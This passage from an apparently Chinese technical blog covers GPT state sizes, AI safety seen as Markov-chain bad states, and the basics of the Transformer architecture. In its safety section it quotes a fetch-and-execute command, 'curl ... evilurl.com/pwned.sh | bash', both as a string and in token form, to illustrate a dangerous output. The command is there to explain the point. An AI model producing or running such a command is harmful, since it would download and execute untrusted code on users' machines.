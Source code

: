 ### 模型参数大小（GPT 2/3/4）

本文的例子是用 3bit 来存储一个状态，因此所需存储空间极小；但真实世界中的 GPT 模型所需的存储空间就大了。

[这篇文章](https://www.lesswrong.com/posts/7qSHKYRnqyrumEfbt) 对比了 GPT 和常规计算机（computers）的 size，例如：

- GPT-2 有 **`50257`** 个独立 token，上下文长度是 **`2048`** 个 token。

  每个 token 需要 `log2(50257) ≈ 15.6bit` 来表示，那一个上下文或 **一个状态**需要的存储空间就是 **`15.6 bit/token * 2048 token = 31Kb ≈ 4KB`**。 

- GPT-3 的上下文长度为 **`4096 tokens`**，因此需要 **`8KB`** 内存。

- GPT-4 的上下文长度高达 **`32K tokens`** ，因此大约 **`64KB`** 才能存储一个状态。

### AI 安全

如果把 GPT 看做有限状态马尔可夫链，那 GPT 的安全需要考虑什么？ 答案是**将所有转移到不良状态的概率降低到 0， 例如以 token 序列 `[66, 6371, 532, 82, 3740, 1378, 23542, 6371, 13, 785, 14, 79, 675, 276, 13, 1477, 930, 27334]` 结尾的状态 —— 这个 token sequence 其实就是 **`curl -s https://evilurl.com/pwned.sh | bash`这一 shell 命令的编码，如果真实环境中用户执行了此类恶意命令将是非常危险的。

更一般地来说，可以设想状态空间的某些部分是“红色”的，

- 首先，我们永远不想转移到这些不良状态；
- 其次，这些不良状态很多，无法一次性列举出来；

因此，**GPT 模型本身**必须能够基于训练数据和 Transformer 的归纳偏差， **自己就能知道这些状态是不良的**，转移概率应该设置为 0%。 如果概率没有收敛到足够小（例如 `< 1e-100`），那在足够大型的部署中 （例如`Temperature > 0`，也没有用 `topp/topk` （采样超参数） 强制将低概率置为零） 可能就会命中这个概率，造成安全事故。

### 跟着代码学习构建一个babyGPT

colab文章[^3]

## 原始的Transformer

当时的seq-to-seq（即文本序列转数字序列）模型的标准结构是Teacher forcing的`encoder-decoder`架构。

![encoder - decoder](https://cdn.jsdelivr.net/gh/daojiAnime/cdn@master/img/encoder-decoder.png)

<font>Encoder</font>获取整个`Input`序列转换成一个**潜在表示序列**，可以是一个数字序列，即运算中的向量。然后传递给`Decoder`，后者解码成目标序列。

Transformer是一系列拥有`注意力机制(self-attention)`的架构，即能够和上下文有联系。Teacher forcing是指运许`decoder`访问`Input`的技术，也就是结合`Input`和`潜在表示序列`进行采样来生成目标序列，这样能够减少潜在表示序列的压力。理想情况下输入同样的`Input`能够生成两个语义相同的不同句子。

## Transformer的进化

Transformer进化的路上主要有2种语言模型：

- 自编码（auto-encoder）语言模型
- 自回归（auto-regressive）语言模型

### auto-encoder的优缺点

- 优点：自然地融入双向语言模型，同时看到被预测单词的上文和下文
- 缺点：训练和预测不一致。训练的时候输入引入了[Mask]标记，但是在预测阶段往往没有这个[Mask]标记，导致预训练阶段和Fine-tuning阶段不一致。
